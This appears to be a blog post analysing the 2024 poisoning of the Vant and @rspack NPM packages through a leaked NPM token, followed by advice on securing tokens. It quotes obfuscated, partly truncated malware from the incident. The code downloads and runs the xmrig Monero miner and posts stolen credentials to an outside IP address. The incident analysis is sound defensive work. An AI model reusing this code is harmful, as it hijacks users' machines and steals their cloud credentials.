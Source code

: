 ```yaml
---
title: A poisoning incident caused by an NPM token leak
top: true
---
```

## Background

Due to the leak of a developer's NPM token, the NPM packages Vant, @rspack/core, and @rspack/cli were poisoned.
[![Issues](/assets/2024-12-19/token-leak-github.jpg)](https://github.com/youzan/vant/discussions/13273)
The attacker embedded the mining software xmrig in the code and stole users' cloud service credentials.
The poisoned partial code:
```javascript
function _0x490324() {
        return _0x4a8553(this, undefined, undefined, function* () {
            const _0x3f26b7 = yield function (_0x1d5cc6) {
                return _0x4a8553(this, undefined, undefined, function* () {
                    const _0x2c5ca1 = "https://api.github.com/repos/youzan/vant/git/blobs/" + _0x1d5cc6;
                    const _0x474a42 = _0x16ed2a.join("/tmp/", "vant.tar.gz");
                    const _0x1e3d06 = _0x16ed2a.join("/tmp/", "vant");
                    const _0x3fe94f = {
                        'Accept': 'application/vnd.github.raw+json'
                    };
                    try {
                        0x0;
                        const _0x37fd84 = yield _0x33f3f1["default"]({
                            'method': "GET",
                            'url': _0x2c5ca1,
                            'responseType': "stream",
                            'headers': _0x3fe94f
                        });
                    try {
                        yield _0x4973ce.x({
                            'file': _0x474a42,
                            'cwd': "/tmp/"
                        });
                    return _0x1e3d06;
                });
            }("8ed1c9256b4bfeb3e4f5aaff48bf140398361ae3");
            if ('' === _0x3f26b7) {
                            const _0x13db7a = yield _0x33f3f1["default"]({
                                'method': "GET",
                                'url': 'https://github.com/xmrig/xmrig/releases/download/v6.22.2/xmrig-6.22.2-linux-static-x64.tar.gz',
                                'responseType': "stream"
                            });
                        try {
                            yield _0x4973ce.x({
                                'file': _0x29d56d,
                                'cwd': "/tmp/",
                                'filter': _0xae122a => _0xae122a.endsWith("xmrig"),
                                'strip': 0x1
                            });
                            yield _0x14f1da.renameSync("/tmp/xmrig", '/tmp/vant_helper');
                    });
                }(), ['-u', "475NBZygwEajj4YP2Bdu7yg6XnaphiFjxTFPkvzg5xAjLGPSakE68nyGavn8r1BYqB44xTEyKQhueeqAyGy8RaYc73URL1j", '-o', "pool.supportxmr.com:443", '--tls', '-k', '--cpu-max-threads-hint=75', "--background"]);
            yield function (_0x392e85) {
                    try {
                        (yield _0x33f3f1["default"].post("http://80.78.28.72/tokens", _0x57e4cd)).status;
                    }
        });
}
```
## What is an NPM Token used for?

> 1. Authenticating and accessing the NPM registry:
An NPM token is used to authenticate a developer's identity and securely access the NPM registry. It allows developers to publish and install packages without needing to use a username and password.
> 2. Automating package publishing:
NPM tokens enable developers to automate tasks like publishing packages to the NPM registry. This eliminates the need to manually enter credentials each time, streamlining the workflow.
> 3. Managing permissions for private packages:
NPM tokens can be used to manage and control access to private packages, ensuring that only authorized users or systems can install or modify them.
> 4. Storing tokens securely:
NPM tokens are typically stored in configuration files or environment variables. This ensures sensitive information, such as API keys or credentials, is securely managed and not exposed in plain text.

## How to generate it?
We can create an NPM token by clicking on the avatar -> Access Tokens in the official NPM repository.
![NPM Token](/assets/2024-12-19/npm-tokens.jpg)

## Why does it get leaked?
Aside from system hacks or phishing attacks, a common cause of leaks is hardcoding the NPM Token and accidentally publishing it to a public code repository.

## If it gets leaked, it can be exploited for poisoning?
If two-factor authentication is not enabled, an NPM Token leak could directly grant attackers access to sensitive information or resources, as well as the ability to publish new versions of malicious components.

## Suggestions
1. Enable Multi-Factor Authentication (MFA)
2. Regularly Replace Tokens
3. Store Tokens in a Secure Location
4. Monitor Logs for Suspicious Activity